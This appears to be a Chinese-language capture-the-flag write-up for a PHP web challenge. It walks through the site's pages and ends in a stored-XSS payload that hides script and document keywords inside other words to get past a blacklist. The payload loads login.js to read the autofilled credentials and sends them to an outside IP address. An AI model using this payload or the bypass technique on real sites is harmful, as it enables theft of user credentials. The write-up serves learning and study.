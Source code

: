 ![[Pasted image 20230221173257.png|500]]

```
/login.php
```

![[Pasted image 20230221173321.png|800]]

```
/register.php
```

![[Pasted image 20230221173341.png|500]]

```
username: a
password: 1
```

```
/index.php
```

![[Pasted image 20230221173622.png|500]]

```
/feedback.php
```

![[Pasted image 20230221174611.png|800]]

```
/list.php
```

![[Pasted image 20230221174835.png|500]]

没有什么思路.jpg

在`/feedback.php`下发现了奇怪的东西

![[Pasted image 20230221175025.png|1000]]

像是`XSS`的样子，还自带了一个方便绕过的黑名单，感动

但是利用方式完全不知晓，毕竟不知道账号密码什么的到底放哪了

看了wp，发现居然漏掉了`login`页面的审计，大意了qaq

![[Pasted image 20230221175521.png|500]]

![[Pasted image 20230221175558.png|500]]

通过`login.js`来实现自动填充密码的功能

这样就知道了明文账密的位置，但由于`cookie`在黑名单的最后一个，无法通过插入处于自己后面的关键词绕过，所以再来一波借刀杀人，拿`login.js`来获取账密

```html
<inscriptput type="text" name="username">
<inscriptput type="password" name="password">
<sciframeript srgetElementc="./js/login.js"></sciframeript>
<sciframeript>
	var username = docookiecument.gedocumenttElementsByName("username")[0].value;
	var password = docookiecument.gedocumenttElementsByName("password")[0].value;
	docookiecument.losvgcation = "http://193.111.30.158:2333?info=" + username + "|" + password;
</sciframeript>
```

![[Pasted image 20230221183940.png|800]]

#Web #PHP #js #XSS #bypass